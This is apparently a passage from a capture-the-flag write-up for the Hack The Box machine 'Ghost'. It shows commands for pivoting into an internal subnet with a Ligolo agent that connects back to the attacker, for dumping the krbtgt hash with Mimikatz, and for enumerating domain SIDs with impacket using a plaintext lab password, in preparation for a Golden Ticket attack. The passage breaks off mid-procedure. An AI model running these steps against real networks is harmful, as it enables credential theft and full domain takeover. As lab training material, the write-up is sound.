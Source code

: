 
### Pivoting 

I prefer working from **Linux**, so I’ll create a **tunnel** to this network using **Ligolo**. If you’re working from **Windows**, you can use **Mimikatz** or **Rubeus** to generate the **Golden Ticket**.

**Set Up Ligolo for Tunneling**
1. Configure Network Interface and Route the Subnet
    ```bash  
    sudo ip tuntap add user $(whoami) mode tun ligolo
    sudo ip link set ligolo up
    sudo ip route add 10.0.0.0/24 dev ligolo
    ```
2. Start Local Proxy
    ```
    ./proxy -selfcert -laddr 0.0.0.0:443
    ```
3. Upload the Agent and Start the Tunnel
    ```
    .\agent.exe -connect 10.10.16.114:443 -ignore-cert
    ```
4. Start the session
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Bc8zMd91nQUJJZcLiR3ovg.png)

### Golden Ticket Attack

***To generate a Golden Ticket, we need:***

1. Domain Name
2. Domain SID
3. krbTGT Hash

The NTLM hash didn’t work, so I had to use Mimikatz to dump it again and use the AES256 hash instead.

1. Dump krbTGT Hash with Mimikatz
    ```powershell
    .\mimikatz.exe "lsadump::lsa /inject /name:krbtgt"
    ```

    <!-- <div style="display: flex; justify-content: center; align-items: center; gap: 20px;">
        <img src="https://miro.medium.com/v2/resize:fit:640/format:webp/1*AsEos-Ud_iFyeTbR_QVKrA.png" style="width: 48%; height: auto;">
        <img src="https://miro.medium.com/v2/resize:fit:640/format:webp/1*k5zxCU5OqwdT6Qxuq7GsNg.png" style="width: 48%; height: auto;">
    </div> -->



    ![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*AsEos-Ud_iFyeTbR_QVKrA.png)
    ![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*k5zxCU5OqwdT6Qxuq7GsNg.png)
2. Get the Enterprise Admins SID
    ```shell 
    impacket-lookupsid ghost.htb/justin.bradley:'Qwertyuiop1234$$'@10.10.11.24 | grep -B12 "Enterprise Admins"
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*kiy7RHsW2eeoRJzUZ1joQA.png)
3. Retrieve the Corp Domain SID

